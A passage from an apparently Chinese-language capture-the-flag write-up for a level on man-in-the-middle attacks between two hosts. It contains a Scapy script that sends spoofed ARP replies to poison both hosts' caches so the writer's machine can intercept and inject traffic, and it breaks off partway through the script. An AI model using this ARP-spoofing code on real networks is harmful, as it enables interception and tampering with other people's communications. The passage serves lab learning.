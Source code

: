 ![level13结果](image-5.png)

## level14 Man-in-the-middle traffic between two remote hosts and inject extra traffic

从讲解来看，这个题的核心是需要加入对话，而不仅仅是监听，因为对话中有一次性密钥，仅仅监听并不管用，重点是抓住窗口期发送包含有FLAG的包。

直接写个脚本
```
from scapy.all import *

sendp(Ether(src=get_if_hwaddr("eth0")) / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),
            psrc="10.0.0.3",pdst="10.0.0.4"),iface="eth0") #tell 10.0.0.4，where 10.0.0.3 it is
sendp(Ether(src=get_if_hwaddr("eth0")) / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),
            psrc="10.0.0.4",pdst="10.0.0.3"),iface="eth0") #tell 10.0.0.3，where 10.0.0.4 it is

packet_data = {
    'key': '',
    'dst': '',
    'src': '',
```